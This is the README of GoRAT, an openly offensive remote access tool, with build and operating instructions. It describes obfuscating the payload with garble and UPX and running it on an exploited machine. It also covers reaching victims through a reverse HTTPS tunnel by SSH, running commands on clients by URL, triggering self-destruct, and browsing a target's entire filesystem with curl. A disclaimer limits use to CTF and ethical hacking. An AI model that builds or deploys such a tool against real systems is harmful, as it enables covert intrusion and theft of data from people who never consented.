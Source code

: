 ```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```
![GitHub](https://img.shields.io/github/license/JustinTimperio/GoRAT)
[![Go Reference](https://pkg.go.dev/badge/github.com/JustinTimperio/GoRAT.svg)](https://pkg.go.dev/github.com/JustinTimperio/GoRAT)
![Go Report Card](https://goreportcard.com/badge/github.com/JustinTimperio/GoRAT)
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/d343e4d027164076a630448e3102fbf7)](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros       |
|---------------------|---------------------|
| Linux               | Linux               | 
| FreeBSD             | FreeBSD             |
| OpenBSD             | OpenBSD             |
| Linux ARM           | Linux ARM           | 
| FreeBSD ARM         | FreeBSD ARM         |
| OpenBSD ARM         | OpenBSD ARM         |
| Linux MIPS          | Linux MIPS          |
| MacOS               | Windows (kinda)     |
| Windows (kinda)     |                     |

# Installing and Building

1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/) and run `go install mvdan.cc/garble`
3. Fill out `config.sh` and run `./build_payload.sh --garble`
4. Transfer the `BUILD` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
5. Exploit your system and run the binary
6. Connect to the "target" via normal ssh from the "attacking" machine


# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
mr.robot@localhost:~# ./start_server.sh 
Starting Chisel Server on Port 1337
=============================================
Session #1 | Control Server Mounted On: 27818
Session #1 | SSH Server Mounted On: 27819
=============================================
Session #2 | Control Server Mounted On: 33132
Session #2 | SSH Server Mounted On: 33133

```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

The payload also uses [garble](https://github.com/burrowers/garble) to produce a binary that works as well as a regular build, but has as little information about the original source code as possible.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 
![image](goRAT_Architecture.jpg)


# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
